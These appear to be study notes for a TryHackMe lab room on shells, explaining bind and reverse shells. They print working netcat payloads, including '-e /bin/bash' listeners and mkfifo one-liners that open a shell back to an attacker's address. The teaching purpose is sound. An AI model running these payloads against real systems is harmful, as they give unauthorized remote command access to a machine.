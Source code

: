 # THM Room: What the Shell? #

## What is a shell? ##

* In the simplest possible term; a shell is what we use to interact with a Command Line Environment or (CLI).
* we can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).
* There are a variety of tools that we will be using to receive reverse shells and to send bind shells.

### Common Shell Payloads ###

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of hepcat (including the nc.exe Windows version included with Kali at /usr/share/windows-resources/binaries, and the version used in Kali itself: netcat-traditional) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

```ZSH
nc -lvnp <PORT> -e /bin/bash
```

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

```ZSH
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a named pipe at `/tmpf`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send)then gets piped directly into sh, sending the `stderr` output stream into stdout, and sending `stdout` itself into the input of the named pipe, thus completing the circle.

![Listener for Bind shell](https://i.imgur.com/se5Fyn3.png)

A very similar command can be used to send a netcat reverse shell:

```ZSH
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
